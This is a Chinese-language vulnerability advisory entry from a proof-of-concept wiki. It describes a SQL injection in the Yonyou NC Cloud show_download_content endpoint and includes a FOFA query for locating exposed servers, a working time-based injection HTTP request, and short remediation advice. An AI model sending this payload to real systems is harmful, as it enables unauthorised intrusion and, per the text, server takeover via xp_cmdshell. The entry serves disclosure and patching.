

---

source: "SourByte05/Vulnerability-Wiki-PoC"
---

# 用友NC及NC Cloud show_download_content SQL注入漏洞

# 漏洞描述

用友NC及NC Cloud /ebvp/infopub/show_download_content接口存在SQL注入漏洞，攻击者通过利用SQL注入漏洞配合数据库xp_cmdshell可以执行任意命令，从而控制服务器。经过分析与研判，该漏洞利用难度低，建议尽快修复。

# 影响版本

用友-NC-Cloud

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="用友-NC-Cloud"

POC/EXP：

GET /ebvp/infopub/show_download_content;.js?id=1';WAITFOR+DELAY+'0:0:6'-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: zh-CN
Connection: keep-alive

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
